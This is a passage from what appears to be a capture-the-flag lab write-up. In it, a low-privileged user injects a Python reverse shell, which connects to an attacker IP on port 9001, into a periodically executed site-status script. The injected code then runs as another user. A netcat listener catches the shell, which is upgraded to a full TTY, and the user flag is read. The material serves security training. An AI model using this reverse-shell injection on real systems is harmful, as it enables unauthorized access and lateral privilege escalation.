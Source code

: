 ```bash
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
daniel@ip-10-10-89-107:/home/adrian$ cat user.txt
cat: user.txt: Permission denied
daniel@ip-10-10-89-107:/home/adrian$ cat user.txt
cat: user.txt: Permission denied
daniel@ip-10-10-89-107:/home/adrian$ cat /home/adrian/site_status.txt
Site is Up: 13/07/2025 23:50:01
Site is Up: 13/07/2025 23:51:01
daniel@ip-10-10-89-107:/home/adrian$ nano query.py
```


```bash
from datetime import datetime
import requests

import os,pty,socket;
s=socket.socket();
s.connect(("10.10.36.146",9001));
[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```


```bash
$ id
id
uid=1000(adrian) gid=1000(adrian) groups=1000(adrian),1002(administrators)
$ which python3
which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
adrian@ip-10-10-89-107:~$ ^Z
[1]+  Stopped                 nc -nlvp 9001
root@ip-10-10-36-146:~/Napping# stty raw -echo; fg
nc -nlvp 9001

adrian@ip-10-10-89-107:~$ pwd
/home/adrian
adrian@ip-10-10-89-107:~$ cat user.txt
THM{Wh@T_1S_Tab_NAbbiN6_&_PrinCIPl3_of_L3A$t_PriViL36E}
adrian@ip-10-10-89-107:~$ 
```
